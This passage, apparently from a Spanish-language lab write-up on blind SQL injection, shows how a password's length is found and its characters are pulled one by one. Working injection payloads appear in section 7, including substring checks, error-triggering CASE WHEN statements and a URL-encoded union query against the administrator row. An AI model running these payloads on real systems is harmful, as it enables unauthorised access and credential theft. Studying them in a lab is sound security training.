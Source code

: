Ahora ya podemos mandarlo y ver que tamaño será.

Sería un snipper normal

![](assets/2022-07-08-12-55-18.png)

Tiene 20 caracteres porque el cambio de respuesta de 500 a 200 está ahí y la condición es que sea mayor

![](assets/2022-07-08-12-56-20.png)

## 7. Obtener la contraseña

La contraseña se consigue con este tipo de select haciendo un iterador hasta el tamaño y luego un bruteforce de caracteres alfanuméricos por lo menos aquí en el laboratorio. Se podrían hacer más potentes.

```sql

-- Select para usar en el ataque
' and (select substring(password,1,1) from users where username='administrator')='a'


---Nuestra cadena funcional


' union select case when (1=1) then to_char(1/0) else '' end from users-- 

'+union+select+case+when+(1%3d2)+then+to_char(1/0)+else+''+end+from+users+WhERE+username='administrator'+and+substr(password,1,1)%3d'a' --

Lo hemos hecho de la otra manera porque al dar siempre 

Ahora cambiamos por el 1=1
```
